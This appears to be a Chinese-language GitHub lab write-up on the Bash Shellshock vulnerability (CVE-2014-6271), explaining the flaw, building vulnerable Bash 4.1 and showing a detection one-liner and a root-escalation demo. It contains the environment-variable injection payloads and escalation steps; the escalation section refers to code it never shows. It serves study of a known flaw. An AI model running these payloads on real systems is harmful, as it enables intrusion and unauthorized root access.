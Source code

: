 ﻿# Bash Shellshock 漏洞分析与复现

## 一、漏洞介绍
* 2014年09月25日，CVE官方发布了漏洞CVE-2014-6271
* Shellshock利用了Bash在导入环境变量函数时候的漏洞，启动Bash的时候，它不但会导入这个函数，而且也会把函数定义后面的命令执行。
* 在有些CGI脚本的设计中，数据是通过环境变量来传递的，这样就给了数据提供者利用Shellshock漏洞的机会。
* 简单来说就是由于服务器的cgi脚本调用了bash命令，由于bash版本过低，攻击者把有害数据写入环境变量，传到服务器端，触发服务器运行Bash脚本，完成攻击。

## 二、漏洞原理

* Bash 4.3以及之前的版本在处理某些构造的环境变量时存在安全漏洞，向环境变量值内的函数定义后添加多余的字符串会触发此漏洞，攻击者可利用此漏洞改变或绕过环境限制，以执行任意的shell命令,甚至完全控制目标系统，这是典型的数据和代码没有进行正确区分导致的漏洞

* 受到该漏洞影响的bash使用的环境变量是通过函数名称来调用的，以“(){”开头通过环境变量来定义的。而在处理这样的“函数环境变量”的时候，并没有以函数结尾“}”为结束，而是一直执行其后的shell命令

## 三、漏洞复现

### 1、下载配置Bash 4.1
* 命令行 ：
* wget http://labfile.oss.aliyuncs.com/bash-4.1.tar.gz(下载)
* tar xf bash-4.1.tar.gz（解压）
* cd bash-4.1（进入目录）
* ./configure
* make & make install（安装）
* bash -version
![](https://github.com/AD-0x1A/Bash-Shellshock-/blob/master/picture/1.png)
![](https://github.com/AD-0x1A/Bash-Shellshock-/blob/master/picture/2.png)
![](https://github.com/AD-0x1A/Bash-Shellshock-/blob/master/picture/4.png)
### 2、检测漏洞是否存在
* 命令行：
* env x=’() { :; };echo vulnerable’ bash -c “echo this is a test”
![](https://github.com/AD-0x1A/Bash-Shellshock-/blob/master/picture/5.png)
* 可以看到，终端中除了输出this is a test，而且同时输出了 Vulnerable，证明该漏洞存在

## 四、漏洞利用，root权限提取
* 编写以下代码，编译运行
* 命令行：sudo ln -sf /bin/bash /bin/sh：使/bin/sh指向/bin/bash
* 命令行：export foo="() { :; }; bash"
* 命令行：sudo su
![](https://github.com/AD-0x1A/Bash-Shellshock-/blob/master/picture/6.png)
![](https://github.com/AD-0x1A/Bash-Shellshock-/blob/master/picture/7.png)
![](https://github.com/AD-0x1A/Bash-Shellshock-/blob/master/picture/8.png)
* 可以看到，当输入sudo su后，命令行在不需要输入密码时权限变为root，实现了root权限的提权
